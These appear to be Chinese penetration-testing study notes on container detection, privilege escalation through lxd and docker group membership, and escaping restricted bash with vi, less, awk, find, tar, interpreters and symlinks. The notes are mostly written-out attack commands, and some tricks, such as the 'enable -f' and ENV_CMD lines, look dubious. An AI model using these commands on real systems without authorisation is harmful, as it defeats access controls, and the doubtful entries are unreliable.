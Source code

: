 # lxd,docker,rbash

检测方法:
检查硬件信息​（需要 root）
```
dmidecode -t system 2>/dev/null | grep -E 'Manufacturer|Product'
```
检查特定文件
```
# Docker 容器
ls /.dockerenv  # 存在则一定是 Docker 容器

# LXC 容器
ls /dev/lxc/    # 存在则一定是 LXC 容器
```
使用linpeas.sh脚本
# lxd容器
提权条件:
以获得shell
用户属于lxd组(id查看)
也可用LinEnum脚本探测
![](vx_images/539149065512448.png)
步骤:创建容器,挂载磁盘,进入容器,进入目录提权


# docker(提权)---也就是利用docker容器外部提权,不是逃逸(逃逸有可能需要容器的root)
条件:用户权限是否在docker组中(id)
docker run -v /:/mnt -it alpine


# Rbash（Restricted Shell）
RBash 的限制机制
RBash 通常会限制以下操作：
cd 命令（无法切换目录）
设置/修改环境变量（如 PATH, SHELL）
使用绝对路径或包含 / 的命令
执行特定危险命令（如 ssh, vim）
重定向操作符（>, <, |）

usermod -s /bin/rbash user(对用户进行rbash限制)

绕过:
1. ​利用 Shell 内置命令
```
echo $PATH        # 查看当前 PATH
PATH=$PATH:/bin   # 添加 /bin（某些场景可修改）
```

2. ​利用程序逃逸功能
支持交互式命令的程序（如文本编辑器）：
```
# 使用 vi/vim
vi
:set shell=/bin/bash
:shell   # 获得完整 bash

或


# 使用 less/more
less /etc/passwd
! /bin/bash   # 启动新 shell
```

3. ​SSH 命令注入
通过 authorized_keys 注入命令（需写权限）：
```
# 在 authorized_keys 添加：
command="export PATH=/bin:$PATH; bash" ssh-rsa AAAAB3Nza...
```
4. ​编程语言解释器
```
# Python
python -c 'import os; os.system("/bin/bash")'

# Perl
perl -e 'exec "/bin/bash"'
```

5. ​环境变量污染
```
# 覆盖 SHELL 变量（某些实现有效）
export SHELL=/bin/bash
bash


# 通过环境变量带入命令
ENV_CMD="/bin/bash" 
$ENV_CMD
```
6. ​符号链接与文件操作
```
# 创建符号链接
ln -s /bin/bash /tmp/breakout
/tmp/breakout   # 执行
```

7. ​命令欺骗
```
# 使用 awk
awk 'BEGIN {system("/bin/bash")}'

# 使用 find
find . -exec /bin/bash \;
```



8. ​内置命令绕过
```
# 使用 enable 命令重载
enable -f /bin/bash bash
bash
```
9. ​压缩工具逃逸
```
# 使用 tar
tar -cf /dev/null /dev/null --use-compress-program /bin/bash
```
